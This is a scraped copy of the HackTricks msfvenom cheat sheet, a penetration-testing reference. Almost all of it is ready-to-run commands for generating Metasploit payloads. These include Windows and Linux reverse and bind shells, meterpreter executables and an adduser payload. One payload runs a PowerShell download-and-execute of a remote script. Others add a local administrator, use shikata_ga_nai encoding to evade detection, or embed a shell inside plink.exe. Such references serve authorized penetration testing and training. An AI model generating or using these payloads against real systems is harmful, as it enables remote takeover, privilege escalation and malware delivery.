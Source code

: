 source: https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/msfvenom#listing
**MSFVenom - CheatSheet**
<pre> msfvenom -p <PAYLOAD> -e <ENCODER> -f <FORMAT> -i <ENCODE COUNT> LHOST=<IP> </pre>
One can also use the -a to specify the architecture or the --platform

**Listing**
<pre>msfvenom -l #Payloads</pre>
<pre>msfvenom -l encoders #Encoders </pre>

**Common params when creating a shellcode**
<pre> -b "\x00\x0a\x0d" </pre>
<pre> -f c </pre>
<pre> -e x86/shikata_ga_nai -i 5 </pre>
<pre>EXITFUNC=thread </pre>
<pre> PrependSetuid=True #Use this to create a shellcode that will execute something with SUID </pre>


**Windows**
---
**Reverse Shell**
<pre>msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe > reverse.exe </pre>
**Bind Shell**
<pre>msfvenom -p windows/meterpreter/bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f exe > bind.exe </pre>
**Create User**
<pre>msfvenom -p windows/adduser USER=attacker PASS=attacker@123 -f exe > adduser.exe </pre>
**CMD Shell*
<pre> msfvenom -p windows/shell/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe > prompt.exe </pre>
**Execute Command**
<pre> msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell \"IEX(New-Object Net.webClient).downloadString('http://IP/nishang.ps1')\"" -f exe > pay.exe </pre>
<pre>msfvenom -a x86 --platform Windows -p windows/exec CMD="net localgroup administrators shaun /add" -f exe > pay.exe </pre>
**Encoder**
<pre>msfvenom -p windows/meterpreter/reverse_tcp -e shikata_ga_nai -i 3 -f exe > encoded.exe </pre>
**Embedded inside executable**
<pre>msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -x /usr/share/windows-binaries/plink.exe -f exe -o plinkmeter.exe </pre>

**Linux Payloads**
---
**Reverse Shell**
<pre>msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f elf > reverse.elf </pre>
<pre>msfvenom -p linux/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf </pre>
**Bind Shell**
<pre>msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f elf > bind.elf </pre>
**SunOS (Solaris)**
<pre>msfvenom --platform=solaris --payload=solaris/x86/shell_reverse_tcp LHOST=(ATTACKER IP) LPORT=(ATTACKER PORT) -f elf -e x86/shikata_ga_nai -b '\x00' > solshell.elf </pre>
<pre> </pre>
<pre> </pre>
<pre> </pre>
<pre> </pre>
<pre> </pre>
<pre> </pre>

